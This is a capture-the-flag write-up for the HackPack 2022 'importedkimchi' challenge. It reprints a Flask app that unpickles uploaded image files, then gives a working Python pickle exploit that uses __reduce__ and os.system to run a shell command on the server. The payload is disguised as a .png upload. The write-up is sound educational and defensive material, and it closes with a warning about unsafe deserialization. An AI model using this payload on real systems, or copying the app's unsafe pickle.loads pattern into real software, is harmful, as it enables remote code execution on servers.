 ```yaml
---
title: /writeups/ctf/hackpack-2022/importedkimchi
layout: post
permalink: /writeups/ctf/hackpack-2022/importedkimchi
---
```


They give the source code of the webapp in challenge so lets take a look at it.
```
import uuid
from flask import *
from flask_bootstrap import Bootstrap
import pickle
import os

app = Flask(__name__)
Bootstrap(app)

app.secret_key = 'sup3r s3cr3t k3y'

ALLOWED_EXTENSIONS = set(['png', 'jpg', 'jpeg'])

images = set()
images.add('bibimbap.jpg')
images.add('galbi.jpg')
images.add('pickled_kimchi.jpg')

@app.route('/')
def index():
    return render_template("index.html", images=images)

@app.route('/upload', methods=['GET', 'POST'])
def upload():
    if request.method == 'POST':
        image = request.files["image"]
        if image and image.filename.split(".")[-1].lower() in ALLOWED_EXTENSIONS:
            # special file names are fun!
            extension = "." + image.filename.split(".")[-1].lower()
            fancy_name = str(uuid.uuid4()) + extension

            image.save(os.path.join('./images', fancy_name))
            flash("Successfully uploaded image! View it at /images/" + fancy_name, "success")
            return redirect(url_for('upload'))

        else:
            flash("An error occured while uploading the image! Support filetypes are: png, jpg, jpeg", "danger")
            return redirect(url_for('upload'))

    else:
        return render_template("upload.html")

@app.route('/images/<filename>')
def display_image(filename):
    try:
        pickle.loads(open('./images/' + filename, 'rb').read())
    except:
        pass
    return send_from_directory('./images', filename)

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```
So, the website allows you to upload an image, and then it stores it in the "images/" directory with a random name.

You're only allowed to post .png, .jpg, and .jpeg files.
It determines the file type by the file name, and not by the contents of the file.
This means that so long as it ends in the above extensions it will allow the upload.

Let's also take a look at the "display_image" function.
When you try to go to an image in the images/ directory, it will try to unpickle the file, and regardless of whether the "pickle.loads" returns anything, will redirect you to the image.

What is pickling?

If you're familiar with PHP, pickling is the same as serialize/unserialize. More info can be found in the [docs](https://docs.python.org/3/library/pickle.html)

However, unpickling user input is very dangerous, as when something is unpickled, it is executed immediately.

The game plan for attack is to write serialized data to a file, upload it, then access the file, causing our code to be executed on the server.

For this I created a script to cat the flag.txt into an arbitrary file in the images directory. With special help from [SecureFlag](https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization_python.html) :)
```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ("cat flag.txt > images/flaggerino")
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    with open('exploit.png', 'wb') as file:
        file.write(pickled)
```

If we upload the png, then go to /images/flaggerino, we'll get the flag!

Moral of the story, DON'T UNSERIALIZE UNSANITIZED USER INPUT!!!!
